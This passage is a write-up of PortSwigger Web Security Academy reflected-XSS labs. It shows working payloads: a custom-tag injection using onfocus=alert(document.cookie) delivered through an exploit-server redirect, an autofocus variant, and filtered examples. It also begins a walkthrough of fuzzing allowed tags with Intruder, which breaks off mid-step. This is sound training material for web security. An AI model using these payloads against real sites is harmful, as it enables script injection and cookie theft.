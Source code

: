 Goal: perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

- from lab description you know that all html tags are blocked ,so you need a custom html tag

- Go to the exploit server and paste the following code, replacing `your-lab-id` with your lab ID:

  ```html
  <script>
  location="https://your-lab-id.web-security-academy.net/?search=<karim id=x onfocus=alert(document.cookie) tabindex=1>test</karim>#x";
  </script>
  ```

- Click "Store" and "Deliver exploit to victim".

This injection creates a custom tag with the ID `x`, which contains an `onfocus` event handler that triggers the `alert` function. 

The **`tabindex`** indicates that its element can be focused.

The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the `alert` payload to be called because from lab description you have to trigger the alert function automatically.

you can replace the hash part with `autofocus` event .

```
<script>
location="https://your-lab-id.web-security-academy.net/?search=<karim id=x onfocus=alert(document.cookie) tabindex=1 autofocus>test</karim>";
</script>
```



---

### [Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

Goal:  perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert()` function.

- go to any post and write any basic

- I tried many `xss` payloads manually but I was got `400` Bad request with message `"Tag is not allowed"` 

  ```
  <script>alert(document.cookie)</script>
  OR
  <img src=1 onerror=alert(1)>
  ```

- I wanted to know which tag is allowed so, i sent the request to intruder 

- click "Clear §". Replace the value of the search term with: `<>`
